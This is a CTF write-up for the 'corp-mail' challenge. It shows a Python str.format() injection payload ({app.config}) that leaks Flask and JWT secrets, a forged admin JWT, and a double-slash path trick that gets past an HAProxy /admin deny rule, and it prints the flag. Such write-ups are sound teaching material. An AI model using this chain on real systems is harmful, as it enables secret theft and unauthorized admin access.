



well this one chall is from `C2C-CTF 2026`

Link download :  https://github.com/TZkYkunaga/C2C-CTF-FT-Universitas-Indonesia-c2c-ctf2026

| **C2C-CTF FT Universitas Indonesia c2c-ctf2026** |
| --- |
|  |

# corp-mail

I quickly realize that it may cause `Format String Injection` here in the user settings.



Look at 2 files bellow :

### `user.py`

```python
def settings():
    db = get_db()
    user = db.execute('SELECT * FROM users WHERE id = ?', (g.user['user_id'],)).fetchone()
    
    if request.method == 'POST':
        signature_template = request.form.get('signature', '')
        
        if len(signature_template) > 500:
            flash('Signature too long (max 500 characters)', 'error')
            return render_template('settings.html', user=user, current_user=g.user)
        
        formatted_signature = format_signature(signature_template, g.user['username'])
        
        db.execute('UPDATE users SET signature = ? WHERE id = ?',
                   (formatted_signature, g.user['user_id']))
        db.commit()
        
        flash('Signature updated successfully', 'success')
        
        user = db.execute('SELECT * FROM users WHERE id = ?', (g.user['user_id'],)).fetchone()
        return render_template('settings.html', user=user, current_user=g.user)
    
    return render_template('settings.html', user=user, current_user=g.user)
```

### `utils.py`

```python
def format_signature(signature_template, username):
    now = datetime.now()
    try:
        return signature_template.format(
            username=username,
            date=now.strftime('%Y-%m-%d'),
            app=current_app
        )
    except (KeyError, IndexError, AttributeError, ValueError):
        return signature_template

```

With  `render_template` : we can do exploit here

Briefly:

| AI generate !!! |
| --- |
| *• **Engine:** Python's built-in `str.format()` method.
• **Syntax:** `{app.config}`.
• **Capability:** Can **read** internal attributes and variables passed to the format context. It generally **cannot execute code** (you cannot call functions like `os.system()` inside a format string).* |

Using this payload : {app.config}



```python
<Config {'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'SECRET_KEY': '8877ef0b1b5991a69e07a8b3a4d610c6d13befe901560a58f102e834df9d68f1', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'JWT_SECRET': '2c00f9e38238f94dddc60803ba896d36df2ee68eb6910fe4edc631e102176bab', 'JWT_ALGORITHM': 'HS256', 'DATABASE': '/app/data/corporate.db'}>
```

> 'JWT_SECRET': '`2c00f9e38238f94dddc60803ba896d36df2ee68eb6910fe4edc631e102176bab`'
> 

```python
Headers = {
  "alg": "HS256",
  "typ": "JWT"
}

Payload = {
  "user_id": 0,
  "username": "admin",
  "is_admin": 1,
  "exp": 1771150954
}

Signature = "O3k7luv7Zpn2EK7AGrSQGu31s6983HCDDC9tpTMc_YQ"
```

File: `haproxy.cfg`

```python
global
    log stdout format raw local0
    maxconn 4096

defaults
    log     global
    mode    http
    option  httplog
    option  dontlognull
    timeout connect 5000ms
    timeout client  50000ms
    timeout server  50000ms

frontend http_front
    bind *:80
    default_backend flask_backend

backend flask_backend
    http-request deny if { path -i -m beg /admin }
    server flask1 127.0.0.1:5000 check
```

using following url to access admin !!!

> http://challenges.1pc.tf:26565//admin/
> 



Flag : `C2C{f0rm4t_str1ng_l34k5_4nd_n0rm4l1z4t10n_ff887a07f36c}`